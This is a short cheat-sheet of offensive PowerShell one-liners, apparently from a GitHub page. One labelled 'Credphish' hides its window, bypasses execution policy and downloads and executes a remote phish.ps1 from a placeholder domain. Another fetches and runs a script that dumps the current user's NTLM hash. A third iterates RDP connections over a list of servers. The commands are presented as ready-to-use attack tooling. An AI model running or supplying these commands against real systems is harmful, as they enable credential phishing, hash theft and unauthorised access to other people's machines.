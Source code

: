 
Credphish:  
```powershell -ep bypass -WindowStyle hidden -c "Invoke-WebRequest -URI 'https://<domain>.com/phish.ps1'|iex"```

Get NTLM-hash of current user:  
```powershell -ep bypass -c "IEX(New-Object Net.Webclient).DownloadString('https://github.com/elnerd/Get-NetNTLM/raw/master/Get-NetNTLM.ps1'); Get-NetNTLM-Hash"```

Iterate over file containg RDP servers:  

```gc "your_file.txt" | %{Start-Process mstsc -ArgumentList "/v:$_" -Wait; Start-Sleep -s 1}```
